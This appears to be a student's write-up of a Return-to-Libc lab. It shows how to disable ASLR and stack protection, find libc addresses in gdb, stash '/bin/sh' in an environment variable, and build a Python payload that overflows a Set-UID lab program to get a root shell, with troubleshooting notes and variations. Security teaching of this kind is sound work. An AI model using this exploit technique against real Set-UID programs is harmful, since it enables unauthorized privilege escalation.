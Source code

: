 # Return-to-Libc Lab
## Lab Setup
- turn off countermeasures
    1. no ASRL: `$ sudo sysctl -w kernel.randomize_va_space=0`
    2. no SafeGuard: add `-fno-stack-protector` flag when compiling
    3. **non-executable** stack: add `-z noexecstack` flag when compiling
    4. replace `/bin/dash`, which has a countermeasure to revoke privilege when running `Set-UID` programs: `$ sudo ln -sf /bin/zsh /bin/sh`

## Task 1: Finding out the Addresses of `libc` Functions
- in Linux, when a program runs, the `libc` library will be loaded into memory
- when ASRL is turned off, for the same program, the library is always loaded in the same memory address (for the same program, if we change it from a `Set-UID` program to a normal program, the `libc` may not be loaded to the same location)
- use the `gdb` to debug the program,  and find the address of `system()`
    - commands
        - `run` execute the target program once
        - `p` (or `print`) print out the address of `system()` and `exit()` functions
        - `gdb -q retlib` debug `retlib` in quite mode
    - open `retlib` with gdb, and set a break point at `main()`, `run`, the program will pause when it reaches `main()`, and the `libc` will be loaded, then use `p` to print out the address of `system()` and `exit()`
        ```
        $ gdb -q retlib
        Reading symbols from retlib...
        (No debugging symbols found in retlib)
        gdb-peda$ break main
        Breakpoint 1 at 0x12ef
        gdb-peda$ run
        Starting program: ...
        ...
        Breakpoint 1, 0x565562ef in main()
        gdb-peda$ p system
        $1 = {<text variable, no debug info>} 0xf7e12420 <system>
        gdb-peda$ p exit
        $2 = {<text variable, no debug info>} 0xf7e04f80 <exit>
        gdb-peda$ quit
        $
        ```
    - we can also run `gdb` in batch mode, i.e., put `gdb` commands in a file
        - `gdb -q -batch -x gdb_command.txt ./retlib`
        - `gdb_command.txt`
            ```
            break main
            run
            p system
            p exit
            quit
            ```
## Task 2: Putting the Shell String in the Memory
- goal: jump to `system()` and get it to execute an arbitrary command, e.g., `"/bin/sh"`
- use environment variable
    - when running a program from a shell prompt, it actually spawns a child process to execute the program, and all the exported shell variables become the environment variables of the child process
    - create a shell variable `MYSHELL`: `$ export MYSHELL=/bin/sh`, we can check this via `env | grep MYSHELL` or `printenv MYSHELL` or `printenv | grep MYSHELL`
    - find the location of this variable in the memory
        - `prtenv.c`
            ```
            ...
            void main() {
                char *shell = getenv("MYSHELL");
                if(shell) {
                    printf("%x\n", (unsigned int) shell);
                }
            }
            ```
        ```
        $ ./prtenv
        ffffe3fd
        $ ./prtenv
        ffffe3fd
        ```

## Task 3: Launching the Attack
- when we run `retlib` with a benign input, we can know the value of `ebp` and `&buffer`
- **IMPORTANT**: if we use `p $ebp` to check the value of `ebp` in `gdb` when in `bof()`, we will get a different value, because `gdb` run this program with its absolute path, and `gdb` sets some extra environment variables
- however, we don't need the exact value of `ebp`, we only need to know `$ebp-&buffer`, it's 24
- create the payload in `badfile` with `exploit.py` (the initial version)
    ```
    #!/usr/bin/env python3
    import sys

    offset = 24

    content = bytearray(0xaa for i in range(300))

    X = offset + 12
    sh_addr = 0xffffe3fd # The address of "/bin/sh"
    content[X:X+4] = (sh_addr).to_bytes(4, byteorder='little')

    Y = offset + 4
    system_addr = 0xf7e0d370 # The address of system()
    content[Y:Y+4] = (system_addr).to_bytes(4, byteorder='little')

    Z = offset + 8
    exit_addr = 0xf7dffed0 # The address of exit()
    content[Z:Z+4] = (exit_addr).to_bytes(4, byteorder='little')
    ```
- **trouble shooting**
    - after generating a new `badfile`, run `./retlib`, it doesn't spawn a new shell
    - debug `retlib` with `gdb`, in the `bof()`, we can see the stack information
        ```
        ...
        0040| 0xffffcd08 --> 0xaaaaaaaa
        0044| 0xffffcd08 --> 0xf7e0d370 (<system>:   endbr32)
        0048| 0xffffcd08 --> 0xf7dffed0 (<exit>:   endbr32)
        0052| 0xffffcd08 --> 0xffffe3fd
        0056| 0xffffcd08 --> 0xaaaaaaaa
        ...
        gdb-peda$ x/s 0xffffe3fd
        0xffffe3fd:   <error: Cannot access memory at address 0xffffe3fd>
        ```
    - the problem is that the address of the string `"/bin/sh"` is not accessible by the program

    - **FIX**: after analyzing, the prolem is that when compiling `prtenv.c`, I didn't add `-m32` flag, so the program is a 64-bit program, it gave a warning that the size of `unsigned int` and `char*` is different when converting, so in this case, I actually got the lower 32 bits of a 64-bit address, which was not the 32-bit address of the string "/bin/sh", the correct address is `0xffffd3fd`
    - after compile `prtenv.c` with `-m32` flag and get the correct address, generate the new `badfile`, then run `./retlib`, we got a shell with root privilege 
        ```
        $ ./retlib
        Address of input[] inside main(): 0xffffcd90
        Input size: 300
        Address of buffer[] inside bof(): 0xffffcd60
        Frame Pointer value inside bof(): 0xffffcd78
        # whoami
        root
        ```
- variations
    1. try attack without including the address of `exit()` in the payload (still works)
        - another variation: the original attack prompts a new shell, to see how the program behave after `system()` finishs execution, use another command `export MYSHELL=/bin/ls`
        - with `exit()`
            ```
            ./retlib
            Address of input[] inside main(): 0xffffcd90
            Input size: 300
            Address of buffer[] inside bof(): 0xffffcd60
            Frame Pointer value inside bof(): 0xffffcd78
            exploit.py    prtenv     retlib    retlibnewxxxxxxx
            badfile       Makefile   prtenv.c  retlib.c
            ```
        - without `exit()`
            ```
            ./retlib
            Address of input[] inside main(): 0xffffcd90
            Input size: 300
            Address of buffer[] inside bof(): 0xffffcd60
            Frame Pointer value inside bof(): 0xffffcd78
            exploit.py    prtenv     retlib    retlibnewxxxxxxx
            badfile       Makefile   prtenv.c  retlib.c
            Segmentation fault (<---- THE PROGRAM DIDN'T END NORMALLY)
            ```
        - we can see that `exit()` ensures the program to end normally
    2. change the length of name of `retlib` (not work anymore, because the name of the program will be stored in the arguments, changing the length of it may cause some addresses to change)
        ```
        $ ./retlib
        Address of input[] inside main(): 0xffffcd80
        Input size: 300
        Address of buffer[] inside bof(): 0xffffcd50
        Frame Pointer value inside bof(): 0xffffcd68
        Segmentation fault
        ```

- stack before return to `system()`
    ```
    High Memory Addresses
    |          +---------------------+ 
    |          |        ...          |
    |          |---------------------|    
    |          |       sh_addr       |
    |          |---------------------|
    |          |      exit_addr      |
    |          +---------------------+ 
    |          |     system_addr     | (return address)
    |          +---------------------+
    |          |      old ebp        |
    |          |---------------------| <---- ebp
    |          |        ...          |    
    |          +---------------------+
    |          |    Unused Space     |
    |          +---------------------+
    Low Memory Addresses
    ```

- stack before return to `system()`
    ```
    High Memory Addresses
    |          +---------------------+ 
    |          |        ...          |
    |          |---------------------|    
    |          |       sh_addr       |
    |          |---------------------|
    |          |      exit_addr      | (return address)
    |          +---------------------+
    |          |        ...          |    
    |          +---------------------+
    |          |    Unused Space     |
    |          +---------------------+
    Low Memory Addresses
    ```

## Task 4: Defeat Shell's Countermeasure

## Task 5: Return-Oriented Programming